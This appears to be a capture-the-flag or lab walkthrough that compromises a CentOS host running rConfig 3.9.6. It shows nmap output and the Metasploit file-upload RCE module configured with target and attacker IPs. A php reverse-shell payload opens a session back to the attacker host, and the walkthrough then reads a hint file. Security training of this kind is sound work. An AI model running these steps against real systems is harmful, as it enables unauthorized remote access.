

## Infiltrating Unix/Linux

1. scan the target with nse and version scanning with nmap.

```
nmap $target_ip -sCV -T5
```

output:
```
PORT     STATE SERVICE  VERSION
21/tcp   open  ftp      vsftpd 2.0.8 or later
22/tcp   open  ssh      OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 2d:b2:23:75:87:57:b9:d2:dc:88:b9:f4:c1:9e:36:2a (RSA)
|   256 c4:88:20:b0:22:2b:66:d0:8e:9d:2f:e5:dd:32:71:b1 (ECDSA)
|_  256 e3:2a:ec:f0:e4:12:fc:da:cf:76:d5:43:17:30:23:27 (ED25519)
80/tcp   open  http     Apache httpd 2.4.6 ((CentOS) OpenSSL/1.0.2k-fips PHP/7.2.34)
|_http-title: Did not follow redirect to https://10.129.201.101/
|_http-server-header: Apache/2.4.6 (CentOS) OpenSSL/1.0.2k-fips PHP/7.2.34
111/tcp  open  rpcbind  2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|_  100000  3,4          111/udp6  rpcbind
443/tcp  open  ssl/http Apache httpd 2.4.6 ((CentOS) OpenSSL/1.0.2k-fips PHP/7.2.34)
|_http-server-header: Apache/2.4.6 (CentOS) OpenSSL/1.0.2k-fips PHP/7.2.34
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Not valid before: 2021-09-24T19:29:26
|_Not valid after:  2022-09-24T19:29:26
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_ssl-date: TLS randomness does not represent time
3306/tcp open  mysql    MySQL (unauthorized)
Service Info: Host: the
```

this is a **CentOS** linux server.

port `80/443` for the web application:

- apache `2.4.6` is the reported web server version.

- php `7.2.34` is the reported php version.

port `21` for ftp.

port `22` for ssh once we have a username and a password/id_rsa.

port `3306` for mysql databases.

2. inspect the web application.

<p align="center">
  
</p>

- rconfig `3.9.6` is the web application version.

3. search for the rconfig vendors auth file upload rce exploit and use it.

```
msf > use exploit/linux/http/rconfig_vendors_auth_file_upload_rce
```

4. set required settings.

```
msf exploit(linux/http/rconfig_vendors_auth_file_upload_rce) > set RHOSTS 10.129.201.101
RHOSTS => 10.129.201.101
msf exploit(linux/http/rconfig_vendors_auth_file_upload_rce) > set LHOST 10.10.14.83
LHOST => 10.10.14.83
```

5. change payload into basic php reverse command shell instead of meterpreter.

```
msf exploit(linux/http/rconfig_vendors_auth_file_upload_rce) > set payload php/reverse_php
```

output:
```
payload => php/reverse_php
```

6. run the exploit.

```
msf exploit(linux/http/rconfig_vendors_auth_file_upload_rce) > run
```

output:
```
[*] Started reverse TCP handler on 10.10.14.83:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] 3.9.6 of rConfig found !
[+] The target appears to be vulnerable. Vulnerable version of rConfig found !
[!] Not following HTTP redirect: redirect depth exhausted
[+] We successfully logged in !
[*] Uploading file 'xyoak.php' containing the payload...
[*] Triggering the payload ...
[+] Deleted xyoak.php
[*] Command shell session 8 opened (10.10.14.83:4444 -> 10.129.201.101:56262) at 2026-10-30 01:09:17 -0400
```

7. verify linux commands.

```
whoami
```

output:
```
apache
```

8. cd to root directory.

```
cd /
```

9. find the `devicedetails` directory.

```
ls
```

output:
```
bin
boot
dev
devicedetails
etc
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
```

10. cd to `devicedetails`.

```
cd devicedetails
```

11. list files and directories.

```
ls
```

output:
```
edgerouter-isp.yml
hostnameinfo.txt
```

12. read `hostnameinfo.txt` carefully to get the answer.

```
cat hostnameinfo.txt
```

output:
```
Note:

All yaml (.yml) files should be named after the hostname of the router or switch they will configure. We discussed this in our meeting back in January. Ask Bob about it.
```